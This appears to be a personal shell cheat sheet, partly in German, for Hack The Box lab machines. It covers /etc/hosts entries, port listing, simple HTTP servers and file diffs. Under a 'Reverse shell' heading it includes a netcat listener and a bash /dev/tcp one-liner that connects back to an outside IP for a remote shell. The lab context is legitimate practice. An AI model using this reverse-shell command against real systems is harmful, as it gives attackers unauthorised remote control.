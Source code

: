 ## Shell
echo to host file
```sh
echo "10.129.152.215 unika.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb/" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

open reverse shell

### Reverse shell Server
```sh
#create a listener for shell session
nc -nvlp 1337


#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000

```
### get own ip
```
ip a | grep tun0 

```
### pwd
```sh
pwd #print working directory
```
```sh
python -m http.server 8001
```

### Differences between files
```sh
diff -y file1 file2
-y # side by side
```
